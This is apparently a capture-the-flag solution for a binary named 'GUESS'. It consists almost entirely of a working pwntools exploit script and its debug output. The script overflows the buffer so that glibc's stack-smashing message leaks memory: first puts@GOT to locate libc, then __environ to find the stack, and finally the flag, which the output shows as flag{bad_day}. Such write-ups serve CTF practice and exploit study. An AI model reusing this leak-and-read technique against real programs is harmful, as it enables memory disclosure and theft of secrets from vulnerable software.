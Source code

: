 exp

```python
from pwn import *
context.log_level='debug'
r=process('./GUESS')
#r=remote("node4.buuoj.cn","26247")
elf=ELF('./GUESS')
#libc=ELF('libc-2.23.so')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
puts_got=elf.got['puts']
r.recv()
payload='a'*0x128+p64(puts_got)
r.sendline(payload)
r.recvuntil('stack smashing detected ***: ')
leak=u64(r.recv(6).ljust(8,'\x00'))
log.info("leak:"+hex(leak))

base=leak-libc.sym['puts']
environ_addr = base + libc.sym['__environ']

r.recv()
payload1='a'*0x128+p64(environ_addr)
r.sendline(payload1)
r.recvuntil('stack smashing detected ***: ')
leak1=u64(r.recv(6).ljust(8,'\x00'))
log.info("leak1:"+hex(leak1))

offset=leak1-0x168


payload1='a'*0x128+p64(offset)
r.sendlineafter('Please type your guessing flag',payload1)
print(r.recv())
r.interactive()
```

result

```shell
*] Switching to interactive mode
[DEBUG] Received 0x81 bytes:
    'You should take more effort to get six sence, and one more challenge!!\n'
    '*** stack smashing detected ***: flag{bad_day} terminated\n'
You should take more effort to get six sence, and one more challenge!!
*** stack smashing detected ***: flag{bad_day} terminated
[DEBUG] Received 0x1e bytes:
    'you have no sense... bye :-) \n'
you have no sense... bye :-) 
[*] Process './GUESS1' stopped with exit code 0 (pid 2749)
[*] Got EOF while reading in interactive

```
